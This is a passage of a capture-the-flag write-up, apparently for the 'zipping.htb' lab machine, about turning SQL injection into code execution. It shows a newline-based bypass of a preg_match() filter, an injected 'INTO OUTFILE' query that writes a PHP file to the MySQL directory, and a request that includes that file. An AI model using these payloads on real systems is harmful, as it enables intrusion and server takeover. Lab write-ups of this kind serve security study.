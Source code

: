 ### SQLI to RCE

#### Bypass preg_match()

```php
preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/"
```

Since the regex starts with `^.*` and doesn't use `/m` to match multi lines

Put a new line character : `%0a` at the beginning to bypass the check

The regular expression checks if `procuct_id` was ended with digits, so put `1` at the end of query

#### Write webshell

We have `root` session for **mysql**, which can write files

```c
POST /shop/index.php?page=cart HTTP/1.1
Host: zipping.htb


'; select '<?php phpinfo();?>' INTO OUTFILE '/var/lib/mysql/x.php'; --1
```

![](/assets/obsidian/9889bb57fcd92a195c494682f66f5e2c.png)

```c
GET /shop/index.php?page=/var/lib/mysql/x HTTP/1.1
```
